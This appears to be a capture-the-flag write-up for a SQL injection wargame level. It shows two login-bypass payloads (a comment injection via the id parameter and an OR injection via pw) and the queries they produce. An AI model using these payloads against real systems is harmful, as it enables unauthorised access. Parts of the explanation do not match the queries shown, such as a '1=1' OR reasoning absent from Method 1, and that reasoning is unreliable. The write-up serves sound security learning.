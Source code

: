 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' -- -' AND pw=md5('')

## Queried part:
SELECT id FROM prob_cobalt WHERE id='admin'

## Commented part:
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following URI:

```
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)
